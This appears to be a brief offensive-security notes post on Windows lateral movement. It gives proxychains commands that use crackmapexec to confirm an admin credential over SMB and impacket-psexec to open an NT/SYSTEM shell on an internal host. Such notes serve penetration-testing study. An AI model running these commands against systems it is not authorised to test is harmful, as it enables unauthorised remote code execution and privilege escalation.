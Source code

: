 ```yaml
---
layout: post
title: Windows impacket-psexec
titledate: 10/17/23
tags: ["infosec","offsec", "privesc", "psexec", "impacket"]
---
```


#### admin

if we have verified an admin user say with crackmapexec

    proxychains crackmapexec smb 172....11 -u admin -p 'password123!' -d domain --shares

then we can leverage psexec to drop us into a NT/SYSTEM shell

    proxychains impacket-psexec admin:'password123!'@172....11

from here we can leverage our rdp pivot post